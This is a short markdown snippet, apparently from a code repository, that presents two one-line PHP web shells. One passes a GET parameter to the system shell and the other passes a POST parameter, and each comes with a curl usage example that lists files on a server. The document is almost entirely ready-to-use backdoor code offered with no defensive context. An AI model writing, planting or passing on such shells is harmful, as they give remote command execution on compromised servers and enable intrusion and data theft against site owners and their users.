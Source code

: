 ## Tiny PHP GET shell

```php
<?=`$_GET[1]`;
```

Usage:
```
curl example.com/get.php?1=ls+-al
```

## Tiny PHP POST shell

```php
<?=`$_POST[1]`;
```

Usage:
```
curl example.com/post.php -d '1=ls+-al'
```
